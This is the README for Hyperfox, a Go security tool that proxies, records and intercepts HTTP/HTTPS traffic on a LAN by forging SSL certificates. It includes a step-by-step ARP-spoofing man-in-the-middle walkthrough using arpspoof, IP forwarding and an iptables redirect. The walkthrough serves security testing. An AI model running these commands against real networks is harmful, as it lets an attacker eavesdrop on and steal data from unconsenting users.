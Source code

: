 # Hyperfox

[Hyperfox][1] is a security tool for proxying and recording HTTP and HTTPs
communications on a LAN.

Hyperfox is capable of forging SSL certificates on the fly using a root CA
certificate and its corresponding key. If the target machine recognizes the
root CA as valid, HTTPs traffic could be succesfully intercepted and recorded.

## Getting Hyperfox

Install with [Go][1] and [git][5] using `go get`:

```sh
> go get github.com/xiam/hyperfox
```

Precompiled packages may also be available at the [hyperfox.org][1] site.

## A common example: hyperfox with arpspoof

The following example assumes that hyperfox is installed on a Linux box (host)
on which you have root access or sudo privileges and that the target machine is
connected on the same LAN as the host.

We are going to use the `arpspoof` tool that is part of the [dsniff][4] suite
to alter the ARP table of the target machine in order to make it redirect its
traffic to Hyperfox instead of to the legitimate LAN gateway. This is an
ancient technique known as [ARP spoofing][6].

First, identify both the local IP of the legitimate gateway and its matching
network interface.

```sh
> sudo route
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
default         10.0.0.1        0.0.0.0         UG    1024   0        0 wlan0
...
```

The interface in our example is called `wlan0` and the interface's gateway is
`10.0.0.1`.

```sh
> export HYPERFOX_GW=10.0.0.1
> export HYPERFOX_IFACE=wlan0
```

Then identify the IP address of the target, let's suppose it is `10.0.0.143`.

```sh
> export HYPERFOX_TARGET=10.0.0.143
```

Enable IP forwarding on the host for it to act (temporarily) as a common
router.

```sh
> sudo sysctl -w net.ipv4.ip_forward=1
```

Issue an `iptables` rule to instruct the host to redirect all traffic that goes
to port 80 (commonly HTTP) to a local port where Hyperfox is listening to
(1080).

```sh
> sudo iptables -A PREROUTING -t nat -i $HYPERFOX_IFACE -p tcp --destination-port 80 -j REDIRECT --to-port 1080
```

We're almost ready, prepare hyperfox to receive plain HTTP traffic:

```sh
> hyperfox
...
2014/12/31 07:53:29 Listening for incoming HTTP client requests on 0.0.0.0:1080.
```

Finally, run `arpspoof` to alter the target's ARP table so it starts sending
its network traffic to the host box.

```sh
> sudo arpspoof -i $HYPERFOX_IFACE -t $HYPERFOX_TARGET $HYPERFOX_GW
```

## Contributing to Hyperfox development

Sure, there's a lot of opportunity. Choose an [issue][7], fix it and send a
pull request.

## License

> Copyright (c) 2012-2014 José Carlos Nieto, https://menteslibres.net/xiam
>
> Permission is hereby granted, free of charge, to any person obtaining
> a copy of this software and associated documentation files (the
> "Software"), to deal in the Software without restriction, including
> without limitation the rights to use, copy, modify, merge, publish,
> distribute, sublicense, and/or sell copies of the Software, and to
> permit persons to whom the Software is furnished to do so, subject to
> the following conditions:
>
> The above copyright notice and this permission notice shall be
> included in all copies or substantial portions of the Software.
>
> THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND,
> EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
> MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND
> NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE
> LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION
> OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION
> WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

[1]: https://hyperfox.org
[2]: https://golang.org/doc/install
[3]: http://en.wikipedia.org/wiki/Man-in-the-middle_attack
[4]: http://monkey.org/~dugsong/dsniff/
[5]: http://git-scm.com
[6]: http://en.wikipedia.org/wiki/ARP_spoofing
[7]: https://github.com/xiam/hyperfox/issues
